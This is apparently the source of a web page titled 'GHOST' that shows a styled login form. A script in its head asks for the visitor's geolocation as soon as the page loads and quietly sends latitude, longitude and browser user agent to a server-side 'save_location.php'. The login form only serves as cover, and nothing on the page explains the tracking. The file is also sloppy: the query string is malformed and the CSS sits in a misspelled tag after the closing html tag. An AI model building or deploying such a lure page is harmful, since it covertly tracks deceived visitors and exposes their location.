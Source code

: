  <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="style.css">
    <link href='https://unpkg.com/boxicons@2.1.4/css/boxicons.min.css' rel='stylesheet'>
    <title>GHOST</title>
</head>
<body onload="getLocation()">
   
     
<p id="demo"></p>

<script>
var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {
    const xhttp = new XMLHttpRequest();
    xhttp.open("GET", "save_location.php?lat=" + position.coords.latitude + "&long=" + position.coords.longitude + " &user_agent:" + navigator. userAgent );
    xhttp.send();
   
}
</script>
<div class="wrapper">
  <form action="">
    <h1>Login</h1>
    <div class="input-box">
      <input type="text" placeholder="username" required>
      <i class='bx bxs-user'></i>
    </div>
    <div class="input-box">
      <input type="password" placeholder="password" required>
      <i class='bx bxs-lock-alt'></i>
    </div>
   <div class="remember-forgot">
    <label><input type="checkbox"> remember me</label>
    <a href="#">forgot password?</a>
   </div>
   <button type="submit" class="btn">Login</button>
   <div class="register-link">
    <p>Don.t have an account? <a href="#"></a>Register </p>
   </div>
  </form>
</div>
    
</body>
</html>
<stayl>
  *{
    margin: 0;
    padding: 0;
    box-sizing: border-box;
    font-family:"poppis", sans-serif ;
}
body{
    display: flex;
    justify-content: center;
    align-items: center;
    min-height: 100vh;
    background:  url(8753.jpg) no-repeat;
    background-size: cover;
    background-position: center;
}
.header{
    position: fixed;
    top: 0;
    left: 0;
    width: 100%;
    padding: 20px 100px;
     
    display: flex;
    justify-content:  space-between;
    align-items: center;
    z-index: 99;
    }
    .Logo{
        font-size: 2em;
        color: #fff;
       text-decoration:none;
       
    }

 
 
.navigatior a{
position: relative;
font-size: 1.1em;
color: #fff;
text-decoration: none;
font-weight: 500;
margin-left: 40px;

}

.wrapper{
    width: 420px;
    background: transparent;
    border: 2px solid rgba(255,255,255,2);
    backdrop-filter: blur(20px);
    box-shadow: 0 0 10px rgba(0,0,0,.2);
    color: #fff;
    border-radius: 10px;
    padding: 30px 40px;
}
.wrapper h1{
    font-size: 36px;
    text-align: center;
}
.wrapper .input-box{
    position: relative;
    width: 100%;
    height: 50px;
    margin: 30px 0;
}
.input-box input{
    width: 100%;
    height: 100%;
    background: transparent;
    border: none;
    outline: none;
    border: 2px solid rgba(255,255,255,2);
    border-radius:40px ;
    font-size: 16px;
    color: #fff;
    padding: 20px 45px 20px 20px;
}
.input-box input::placeholder{
    color: #fff;

}
.input-box i {
    position: absolute;
    right: 20px;
    top: 50%;
    transform:translateY(-50%);
    font-size: 20px;
}
.wrapper    .remember-forgot{
    display: flex;
    justify-content: space-between;
    font-size: 14.5px;
    margin: -15px 0 15px;
}
.remember-forgot label input{
    accent-color:#fff ;
    margin-right: 3px;
}
.remember-forgot a{
    color: #fff;
    text-decoration: none;
}
.remember-forgot a:hover{
    text-decoration: underline;
}
.wrapper .btn {
    width: 100%;
    height: 45px;
    background: #fff;
    border: none;
    outline: none;
    border-radius: 40px;
    box-shadow: 0 0 10px rgba(0,0,0,.1);
    cursor: pointer;
    font-size: 16px;
    color: #333;
    font-weight: 600;
}
.wrapper .register-link{
    font-size: 14.5px;
    text-align: center;
    margin: 20px 0 15px;
}
.register-link p a {
    color: #fff;
    text-decoration: none;
    font-weight: 600;
}
.register-link p a:hover {
    text-decoration: underline;
}
 
</stayl>
